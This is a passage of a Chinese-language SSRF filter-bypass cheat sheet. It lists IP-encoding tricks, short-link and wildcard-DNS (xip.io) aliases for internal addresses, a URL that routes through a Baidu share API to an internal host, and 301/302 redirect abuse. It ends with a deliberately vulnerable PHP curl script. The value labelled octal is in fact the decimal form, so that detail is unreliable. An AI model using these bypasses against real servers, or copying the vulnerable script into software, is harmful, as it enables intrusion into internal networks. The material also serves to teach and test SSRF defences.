 ### 2. ip地址转换成进制

如：`115.239.210.26`

转为16进制：`0x73efd21a`

转为8进制：`1945096730`

### 3. 使用短地址来生成内网地址／将自己的域名指向内网地址

如：

```
http://suo.om/1QLXa2
http://192.168.31.1
```

### 4. 端口绕过

```
http://tieba.baidu.com/f/commit/share/opeShareApi?url=http://10.50.33.43:8080/
```

### 5. xip.io

```
10.0.0.1.xip.io == 10.0.0.1
www.10.0.0.1.xip.io == 10.0.0.1
mysite.10.0.0.1 == 10.0.0.1
foo.bar.10.0.0.1.xip.io == 10.0.0.1
192.168.31.1.xip.io
```

### 6. 通过302/301进行跳转

30x跳转经常被用于绕过ssrf，当满足如下条件时，我们就可以使用此方法：

1. 程序的合法性检验逻辑为：检查url参数的host是否为内网地址
2. 使用的是curl的方法，并且CURLOPT_FOLLOWLOCATION为true（即跟随302／301进行跳转）

#### 实例代码

##### 服务器端代码：

**ssrf.php**

```Php
<?php
	function curl($url)
	{
  		$ch = curl_init();
  		curl_setopt($ch, CURLOPT_URL, $url);
  		curl_setopt($ch, CURLOPT_HEADER, 0);
  		curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
  		curl_exec($ch);
  		curl_close($ch);
	}
	$url = $_GET['url'];
	print $url;
	curl($url);
?>
```
